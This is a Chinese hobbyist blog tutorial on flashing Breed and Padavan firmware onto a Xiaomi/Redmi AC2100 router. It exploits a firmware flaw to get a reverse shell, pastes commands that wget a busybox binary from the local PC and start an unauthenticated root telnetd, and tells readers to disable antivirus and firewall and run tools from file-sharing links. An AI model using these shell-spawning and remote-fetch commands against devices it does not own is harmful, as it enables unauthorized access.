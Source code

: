 ```yaml
---
title: 小米AC2100路由器刷入Padavan固件
date: 2021-02-14 12:37:37
tags: [路由器,日常折腾]
categories: 日常折腾
---
```

&emsp;&emsp;注：小米AC2100，红米AC2100皆可使用。  
&emsp;&emsp;注：开始前请记好宽带拨号账号密码。

# 起因
&emsp;&emsp;最近发现只要一打开迅雷下载，即使在下载速度只有几K的情况下，路由器仍然会断网，有线Wifi全挂掉。  
&emsp;&emsp;看别人说是因为CPU跑满了，路由器宕机了。  
&emsp;&emsp;遂决定刷一下固件，选择了Hihoy的Padavan固件。

# 系统环境设置
## 1. 开启Telnet
&emsp;&emsp;`控制面板-程序-启用或关闭Windows功能`，启用`Telnet客户端`。

![启用Telnet](http://pic.lufer.cc/images/2021/03/05/ysxi7j.png)

## 2. 关闭防火墙和杀毒软件
&emsp;&emsp;关闭WindowsDefender防火墙和杀毒软件（如果有）。
## 3. 禁用其他网卡
&emsp;&emsp;只留下连接路由器的网卡接口。

# 准备软件
&emsp;&emsp;因为刷机过程就断网了，所以这些软件都要提前下好。
## 1. 下载路由器刷机工具
&emsp;&emsp;链接：https://pan.baidu.com/s/1cOQdsMNr4xqi3h8fqqMfbQ 提取码：8kw8。   
&emsp;&emsp;下载完成后解压，并安装文件夹下的`WinPcap_4_1_3.exe`。
## 2. 安装Winscp
&emsp;&emsp;https://winscp.net/eng/download.php
## 3. 安装Putty
&emsp;&emsp;https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
## 4. 路由器降级
&emsp;&emsp;由于路由器新版本固件封掉了刷机漏洞，直接刷是刷不进去的，会向下面这样抛异常（图片来自网络，我自己忘了截图了）。

![高版本固件异常图](http://pic.lufer.cc/images/2021/03/05/ysxgv8.png)

&emsp;&emsp;所以要先刷固件回到低版本，下载链接放在下面。  
&emsp;&emsp;链接：https://pan.baidu.com/s/16AxC6AGIiIOBq9b96xAS-w 提取码：eb84。 

## 5. 最新的Padavan刷机包

&emsp;&emsp;https://opt.cn2qq.com/padavan/

&emsp;&emsp;可以在里面搜索2100。小米路由器下载`R2100_3.4.3.9-099.trx`，红米路由器下载`RM2100_3.4.3.9-099.trx`。

# 开始刷入
## 1. 路由器降级
&emsp;&emsp;首先到路由器设置页面，在手动升级里面选择之前下载的低版本刷机包，随后会自动刷入并重启。

![手动降级固件](http://pic.lufer.cc/images/2021/03/05/ysxbvT.png)

## 2. 修改DHCP
&emsp;&emsp;在成功降级后，进入路由器设置页面，将路由器的地址设置为`192.168.31.1`。

## 3. 插线
&emsp;&emsp;将路由器的网线都拔掉，然后将WAN口连接到LAN1口（如果后面发现有问题，可以插到LAN3试一下），中间的LAN口连接电脑。

## 4. 设置电脑IP
&emsp;&emsp;将电脑的IP手动设置为`192.168.31.177`,子网掩码`255.255.255.0`，网关`192.168.31.1`。

## 5. 设置拨号
&emsp;&emsp;打开路由器的上网设置页面，上网方式设置为`PPPOE`，账号和密码都设置为123。

## 6. 刷入Breed
&emsp;&emsp;双击打开`一键开启telnet.bat`（不用管理员运行）。
![解锁工具](http://pic.lufer.cc/images/2021/03/05/yszaR0.png)

&emsp;&emsp;按回车，会打开测试PPPOE数据包的窗口

![成功监测到数据包](http://pic.lufer.cc/images/2021/03/05/yszdzV.png)

&emsp;&emsp;如果这里抛异常，路由器要降级固件。  
&emsp;&emsp;如果没有异常，返回第一个窗口按y，注意要输入小写。

&emsp;&emsp;随后会打开反弹shell窗口，等到提示`connect to [192.168.31.177] from (UNKNOWN) [192.168.31.1] 31290` 就代表反弹成功。

![反弹成功](http://pic.lufer.cc/images/2021/03/05/yszRRx.png)

&emsp;&emsp;这时打开`开启telnet命令.txt`,复制其中的内容，也就是下面这行

>cd /tmp&&wget http://192.168.31.177:8081/busybox&&chmod a+x ./busybox&&./busybox telnetd -l /bin/sh

&emsp;&emsp;粘贴到窗口中，按ctrl+V是无效的，点右键即可粘贴，如果不行就在标题栏点右键粘贴，随后回车，出现如下图提示即代表Telnet解锁成功。

![解锁Telnet](http://pic.lufer.cc/images/2021/03/05/yySSeg.png)

&emsp;&emsp;随后打开命令提示符，粘贴如下代码运行，请逐个粘贴运行。

>telnet 192.168.31.1  
>wget http://192.168.31.177:8081/r3g.bin&&nvram set uart_en=1&&nvram set bootdelay=5&&nvram set flag_try_sys1_failed=1&&nvram commit  
>mtd -r write r3g.bin kernel1

&emsp;&emsp;如果出现如下图的提示，则代表Breed刷入成功了，此时路由器会自动重启。

![Breed刷入成功](http://pic.lufer.cc/images/2021/03/05/yySmmF.png)

## 7. 刷入Padavan

&emsp;&emsp;在路由器重启成功后，将电脑的IP地址改为自动获取，并拔掉路由器的电源，按住Reset按键并插入电源，10s后松开按钮即可。

&emsp;&emsp;注意，这里要检查电脑获取到的IP地址是否为`192.168.1.X`，如果是`169`开头的IP地址，代表自动获取失败，需要将IP地址手动设置为`192.168.1.X`网段，网关设置为`192.168.1.1`。

&emsp;&emsp;随后打开Winscp，连接192.168.1.1，协议是SCP，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后上最上面的三点，切到主目录后，选择tmp文件夹，放进之前下载的最新固件`R2100_3.4.3.9-099.trx`。

&emsp;&emsp;完成后关闭Winscp，再打开Putty，输入192.168.1.1，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后在出现的OP窗口里执行下边这句，注意要改成对应的文件名：

>mtd -r write /tmp/R2100_3.4.3.9-099.trx kernel

&emsp;&emsp;此时等待刷入padavan固件，完成后路由器会重启。

# 恢复现场
&emsp;&emsp;将网线插回正常状态，随后将电脑设置为自动获取IP，打开192.168.2.1 账号：root 或 admin 密码：admin 进入路由设置页面。

&emsp;&emsp;至此完成了Padavan的刷入，在`网络地图`里面设置好宽带的拨号，然后设置好wifi名称和密码即可。
